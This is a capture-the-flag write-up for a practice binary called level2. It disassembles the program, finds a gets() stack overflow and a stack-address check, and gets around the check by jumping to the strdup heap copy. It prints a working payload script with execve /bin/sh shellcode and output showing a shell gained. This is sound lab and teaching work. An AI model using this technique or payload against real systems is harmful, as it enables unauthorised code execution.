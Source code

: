 # level2

## Steps

### Dissassembly

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x0804853f <+0>:  push  ebp
   0x08048540 <+1>:  mov   ebp,esp
   0x08048542 <+3>:  and   esp,0xfffffff0
   0x08048545 <+6>:  call  0x80484d4 <p>
   0x0804854a <+11>: leave
   0x0804854b <+12>: ret
End of assembler dump.
```

It calls another function p:
```sh
FUNCTION=p EXECUTABLE=./level2
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

```nasm
Dump of assembler code for function p:
   0x080484d4 <+0>:     55                   push  ebp
   0x080484d5 <+1>:     89 e5                mov   ebp,esp
   0x080484d7 <+3>:     83 ec 68             sub   esp,0x68
   0x080484da <+6>:     a1 60 98 04 08       mov   eax,ds:0x8049860
   0x080484df <+11>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484e2 <+14>:    e8 c9 fe ff ff       call  0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x080484ea <+22>:    89 04 24             mov   DWORD PTR [esp],eax
   0x080484ed <+25>:    e8 ce fe ff ff       call  0x80483c0 <gets@plt>
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

The stack looks like this:
| Address | Type          | Size |
|---------|---------------|------|
| -0x4c   | char data[76] | 76   |
|  0x00   | *EBP          |  4   |
|  0x04   | *EIP          |  4   |

### Exploitation

This is another stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

We can override the value of EIP by using 80 bytes of padding, followed by the address we want to jump to.
We could try to jump onto the stack-buffer.

First we need to find out at which address the stack-buffer starts.
```sh
gdb ./level2 -batch -ex 'b * 0x080484f2' -ex 'r <<<ABCD' -ex 'p (char*)$ebp - 0x4c'
```
```
Breakpoint 1 at 0x80484f2

Breakpoint 1, 0x080484f2 in p ()
$1 = 0xbffff6ec "ABCD"
```

```sh
ADDRESS="bffff6ec"
BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
(printf '%.0sA' {1..80}; echo $BYTES) | ./level2
```
```
(0xbffff6ec)
```

Oh no, it looks like we where caught!
```nasm
...
   0x080484f2 <+30>:    8b 45 04             mov   eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    89 45 f4             mov   DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    8b 45 f4             mov   eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    25 00 00 00 b0       and   eax,0xb0000000
   0x08048500 <+44>:    3d 00 00 00 b0       cmp   eax,0xb0000000
   0x08048505 <+49>:    75 20                jne   0x8048527 <p+83>
   0x08048507 <+51>:    b8 20 86 04 08       mov   eax,0x8048620
   0x0804850c <+56>:    8b 55 f4             mov   edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    89 54 24 04          mov   DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048516 <+66>:    e8 85 fe ff ff       call  0x80483a0 <printf@plt>
   0x0804851b <+71>:    c7 04 24 01 00 00 00 mov   DWORD PTR [esp],0x1
   0x08048522 <+78>:    e8 a9 fe ff ff       call  0x80483d0 <_exit@plt>
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
...
```

Upon closer inspection, we can see that the stored value of the EIP (EBP + 4) is checked and the program exits if it is above 0xb0000000.
So we cannot jump onto our stack-buffer.

But we can also see that our input is being duplicated into an unfreed heap-allocated buffer, before the function returns.
```nasm
...
   0x08048527 <+83>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x0804852a <+86>:    89 04 24             mov   DWORD PTR [esp],eax
   0x0804852d <+89>:    e8 be fe ff ff       call  0x80483f0 <puts@plt>
   0x08048532 <+94>:    8d 45 b4             lea   eax,[ebp-0x4c]
   0x08048535 <+97>:    89 04 24             mov   DWORD PTR [esp],eax
   0x08048538 <+100>:   e8 a3 fe ff ff       call  0x80483e0 <strdup@plt>
   0x0804853d <+105>:   c9 leave
   0x0804853e <+106>:   c3 ret
End of assembler dump.
```

If we find out it's address we can jump onto it instead of the stack-buffer, and bypass the stack-check.
```sh
gdb ./level2 -batch -ex 'b * 0x0804853e' -ex 'r <<<ABCD' -ex 'p (char*)$eax'
```
```
Breakpoint 1 at 0x804853e
ABCD

Breakpoint 1, 0x0804853e in p ()
$1 = 0x804a008 "ABCD
```

Perfect, now all that's left to do is to place some shellcode at the start of the buffer.

I'll use [Geyslan G. Bem's tiny shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php):


```sh
> /tmp/level2.sh cat << EOF
```
```bash
#!/usr/bin/env bash
RETURN_ADDRESS=0804a008
SIZE=80
SHELLCODE=$'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

LC_ALL=C # Count bytes instead of graphemes
BYTES=$(<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p)

PADDING_SIZE=$((SIZE-${#SHELLCODE}))
PADDING=$(printf '%.0sA' $(seq -s' ' "$PADDING_SIZE"))

echo "$SHELLCODE$PADDING$BYTES"
```
```sh
EOF
chmod +x shellcode.sh
```

```sh
(/tmp/level2.sh; cat) | ./level2
```
```
1É÷á°
     Qh//shh/binã̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
whoami
level3
```
